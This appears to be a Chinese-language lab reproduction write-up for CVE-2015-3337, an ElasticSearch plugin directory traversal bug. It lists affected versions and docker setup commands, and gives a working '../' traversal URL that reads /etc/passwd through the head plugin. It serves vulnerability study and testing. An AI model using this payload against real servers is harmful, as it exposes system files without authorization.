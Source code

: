 # （CVE-2015-3337）ElasticSearch 目录穿越漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2905](https://www.zhihuifly.com/t/topic/2905)

# （CVE-2015-3337）ElasticSearch 目录穿越漏洞

## 一、漏洞简介

在安装了具有“site”功能的插件以后，插件目录使用`../`即可向上跳转，导致目录穿越漏洞，可读取任意文件。没有安装任意插件的elasticsearch不受影响。

## 二、漏洞影响

影响版本：1.4.5以下/1.5.2以下

## 三、复现过程

编译及运行测试环境

```
docker-compose build
docker-compose up -d 
```

测试环境默认安装了一个插件：`elasticsearch-head`，主页在此：https://github.com/mobz/elasticsearch-head

访问`http://www.0-sec.org:9200/_plugin/head/../../../../../../../../../etc/passwd`读取任意文件（不要在浏览器访问）：

![image](img/0191e6afb85462bee9cd61acf15bedf5.png)

### head插件

head插件提供了elasticsearch的前端页面，访问 `http://www.0-sec.org:9200/_plugin/head/` 即可看到，不多说了。

## 参考链接

> https://vulhub.org/#/environments/elasticsearch/CVE-2015-3337/